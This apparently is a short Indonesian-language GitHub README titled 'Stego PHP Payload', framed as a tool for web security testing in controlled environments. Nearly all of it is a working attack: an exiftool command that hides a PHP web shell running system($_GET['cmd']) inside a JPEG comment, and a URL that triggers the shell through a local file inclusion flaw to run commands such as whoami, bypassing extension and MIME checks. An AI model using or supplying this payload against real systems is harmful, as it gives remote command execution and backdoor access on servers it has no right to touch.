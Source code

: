 # Stego PHP Payload
Steganografi untuk menyisipkan payload PHP dalam file gambar, digunakan untuk pengujian keamanan web di lingkungan terkontrol. 

# Payload

```
exiftool -Comment='<?php system($_GET["cmd"]); ?>' kucing.jpg -o shell.jpg
```

# Eksekusi
Eksekusi backdoor pada file gambar melalui celah Local File Inclusion (LFI). Meskipun terdapat validasi ekstensi dan MIME type, serangan tetap dimungkinkan karena adanya kerentanan LFI :

```
https://example.com/index.php?page=uploads/shell.jpg&cmd=whoami
```


